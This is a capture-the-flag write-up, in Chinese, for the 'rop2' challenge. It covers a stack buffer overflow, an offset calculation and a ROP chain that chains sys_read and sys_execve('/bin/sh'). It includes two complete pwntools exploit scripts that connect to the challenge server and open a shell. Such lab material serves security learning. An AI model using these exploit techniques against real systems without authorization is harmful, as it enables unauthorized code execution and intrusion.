 NX 有開 。

main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[42]; // [esp+5h] [ebp-33h]

  alarm(0x1Eu);
  strcpy(v4, "Can you solve this?\nGive me your ropchain:");
  syscall(4, 1, v4, 42);
  overflow();
  return 0;
}
```

overflow
```c
int overflow()
{
  char v1; // [esp+Ch] [ebp-Ch]

  syscall(3, 0, &v1, 1024);
  return syscall(4, 1, &v1, 1024);
}
```

overflow 可以算出 offset 16 可以蓋到 ret ， 於是打算讓他跳回 syscall 執行 sys_execve('/bin/sh')
但 ROPgedget 找不出 '/bin/sh' 於是打算自己構造

想法:
第一次進去 overflow 把 ret 蓋掉，換成 syscall(3, 0, buf, 7) --> sys_read(0, buf, 7) ([參考 syscall table](https://syscalls.kernelgrok.com/))

```python
#payload = padding + ret + syscall + arg1 + arg2 + arg3 + arg4
payload = offset + syscall + ret_addr + sys_read
p.sendline(payload)
p.send('/bin/sh')
```

ret 位置給 overflow 讓他可以達成第二次輸入 (原本嘗試直接再跳一次syscall，但失敗了。好像因為 calling convention 的問題，疑問中)
第二次則從 buf 拿自己輸入的 /bin/sh 出來用
```python
payload = offset + syscall + p32(0xdeadbeaf) + sys_execve
```

exp.py
```python
from pwn import *
offset = 'A' * 16
elf = ELF('./rop2')
p = remote('hackme.inndy.tw', 7703)
syscall = p32(elf.plt['syscall'])
ret_addr = p32(elf.symbols['overflow'])
sys_read = p32(0x3) + p32(0x0) + p32(elf.symbols['some_buffer']) + p32(0x7) # syscall(3, fd, buf, count)
sys_execve = p32(0x0b) + p32(elf.symbols['some_buffer']) + p32(0x0) + p32(0x0)
#paylaod = padding + func + ret + args
payload = offset + syscall + ret_addr + sys_read
p.sendlineafter(':', payload)
p.send('/bin/sh')
payload = offset + syscall + p32(0xdeadbeaf) + sys_execve
p.sendlineafter(':', payload)
p.interactive()
```

以下提供一個ROP利用方法 丟參數順序 ebp edi esi ebx

exp.py
```python
from pwn import *
offset = 'A' * 16
elf = ELF('./rop2')
p = remote('hackme.inndy.tw', 7703)
syscall = p32(elf.plt['syscall'])
sys_read = p32(0x3) + p32(0x0) + p32(elf.symbols['some_buffer']) + p32(0x7) # syscall(3, fd, buf, count)
sys_execve = p32(0x0b) + p32(elf.symbols['some_buffer']) + p32(0x0) + p32(0x0)

#paylaod = padding + func + ret + args
payload = offset + syscall + p32(0x08048578) + sys_read
payload += syscall +  p32(0xdeadbeaf) + sys_execve
p.sendlineafter("your ropchain:", payload)
p.sendline("/bin/sh")
p.interactive()
```
